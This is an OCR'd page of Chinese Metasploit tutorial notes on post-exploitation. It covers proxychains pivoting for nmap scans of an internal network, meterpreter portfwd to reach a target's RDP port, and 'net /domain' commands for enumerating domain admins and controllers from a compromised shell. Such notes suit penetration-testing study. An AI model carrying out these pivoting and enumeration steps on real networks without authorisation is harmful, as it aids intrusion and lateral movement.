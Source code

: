 -   连接代理：使得我们的工具可以扫描内网。我们的工具的数据包会发往代理提供的端口，然后通过代理转发。
    -   apt install proxychains 安装proxychains
    -   修改/etc/proxychains.conf文件
        -   最后加上这行
        -   ![image11](metasploit.assets/image11.png)
    -   然后执行命令前加上 proxychains命令 ，工具的数据就会通过代理了。
        比如nmap
        -   proxychainsnmap -p1-10000-Pn -sT**x**.**x**.**x**.**x**#在打开其他程序前加上proxychains

- portfwd 是meterpreter提供的一种基本的端口转发。porfwd可以反弹单个端口到本地，并且监听，使用方法如下

    -   portfwd add -l 3389 -r 靶机ip -p 3389 #将靶机的的3389端口转发到本地的3389端口上
    -   然后我们只要访问攻击机本地的3389端口就可以连接到目标主机的3389端口了
    -   rdesktop 127.0.0.1:3389
        ![image12](metasploit.assets/image12.png)

- 域信息收集：

    - metepreter需要system权限，在靶机shell下输入

        -   | net time/domain                      | *#查看时间服务器*       |
            | ------------------------------------ | ----------------------- |
            | net user/domain                      | *#查看域用户*           |
            | net view/domain                      | *#查看有几个域*         |
            | net group"domain computers"/domain   | *#查看域内所有的主机名* |
            | net group"domain admins"/domain      | *#查看域管理员*         |
            | net group"domain controllers"/domain | *#查看域控*             |
